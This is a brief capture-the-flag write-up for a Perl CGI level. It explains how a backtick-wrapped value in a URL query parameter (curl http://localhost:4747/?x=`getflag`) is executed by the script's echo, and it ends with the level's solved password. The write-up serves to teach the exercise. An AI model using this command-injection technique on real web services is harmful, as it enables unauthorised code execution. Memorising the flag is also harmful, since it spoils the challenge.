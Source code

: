 # LEVEL 00

## 💡 Explanation

In this level we have to:
1. We check the permissions of the file level04: it belongs to the user flag04 and gives permissions to execute as user (as lvl 03).
2. We can see that the script calls to the function `x` and pass as an argument the parameter `x`.
3. Then the script takes the argument as the variable `y` and does an `echo y`
4. We can use the variable to pass the binary `getflag` so it will execute when doing the echo.

## 👾 Commands

```
cat level04.pl
./level04.pl
curl http://localhost:4747
curl http://localhost:4747/?x=lol
curl http://localhost:4747/?x=\`getflag\`
```

## 🔍 Resources

- [Perl language - Functions & Arguments](https://www.tutorialspoint.com/perl/perl_subroutines.htm)

## 🔥 Password
`ne2searoevaevoem4ov4ar8ap`
